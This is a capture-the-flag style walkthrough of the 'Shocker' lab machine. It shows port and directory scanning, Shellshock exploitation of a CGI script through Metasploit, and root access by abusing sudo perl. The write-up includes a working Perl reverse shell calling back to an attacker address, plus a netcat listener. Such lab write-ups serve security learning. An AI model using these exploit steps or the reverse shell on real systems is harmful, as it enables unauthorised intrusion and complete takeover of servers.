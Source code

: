 # Shocker - 10.10.10.56

## Scanning
```
nmap -sS -sU -T4 -A -p-
```
```
services -R 10.10.10.56

Services
========

host     	port  proto  name      	state  info
----     	----  -----  ----      	-----  ----
10.10.10.56  80	tcp	http      	open   
10.10.10.56  2222  tcp	ethernetip-1  open   
 ```
 Sweet, see what we can find on the web server
```
uniscan -u 10.10.10.56 -qweds

dirb http://10.10.10.56 /usr/share/dirb/wordlists/

dirb http://10.10.10.56 /usr/share/dirb/wordlists/vulns/apache.txt

dirb http://10.10.10.56 /usr/share/dirbuster/wordlists/apache-user-enum-1.0.txt

dirb http://10.10.10.56 /usr/share/dirb/wordlists/vulns/cgis.txt
```

Get a hit. That's when I finally figured that machine name kinda gives [the vulnerability](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec) away.
```
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
```
> When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from the request into the environment variable list and then delegates the request to a handler program. If the handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.
> [*-- Wiki*][1]

### Search for shell files
```shell
root@kingpin:/ dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
File found: /cgi-bin/user.sh - 200
```
Verify vulnerability and exploit.
```
msf auxiliary(apache_optionsbleed) > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf auxiliary(apache_mod_cgi_bash_env) > set rhosts 10.10.10.56
rhosts => 10.10.10.56
msf auxiliary(apache_mod_cgi_bash_env) > set targeturi cgi-bin/user.sh
targeturi => cgi-bin/user.sh
msf auxiliary(apache_mod_cgi_bash_env) > run

[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

msf auxiliary(apache_mod_cgi_bash_env) > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > set targeturi cgi-bin/user.sh
targeturi => cgi-bin/user.sh
msf exploit(apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.195:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (826872 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.195:4444 -> 10.10.10.56:48782) at 2017-11-01 00:40:52 -0400
meterpreter >
```
## Privesc

### Enumeration

[LinEnum](https://github.com/rebootuser/LinEnum) is pretty awesome.
```
...
Matching Defaults entries for shelly on Shocker:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
	(root) NOPASSWD: /usr/bin/perl
...
```
This implies that suid bit is set.

Make a simple perl reverse shell
```perl
use Socket;$i="10.10.14.195";$p=1337;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");
};

```
Set up a listener and execute a shell
```
meterpreter > upload /root/sh.pl
[*] uploading  : /root/sh.pl -> sh.pl
[*] uploaded   : /root/sh.pl -> sh.pl
meterpreter > shell
Process 6773 created.
Channel 3 created.
sudo /usr/bin/perl sh.pl
```
```
root@kingpin:~# nc -l -p 1337 -vvv
listening on [any] 1337 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.195] from (UNKNOWN) [10.10.10.56] 53562
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```




[1]:https://en.wikipedia.org/wiki/Shellshock_(software_bug)
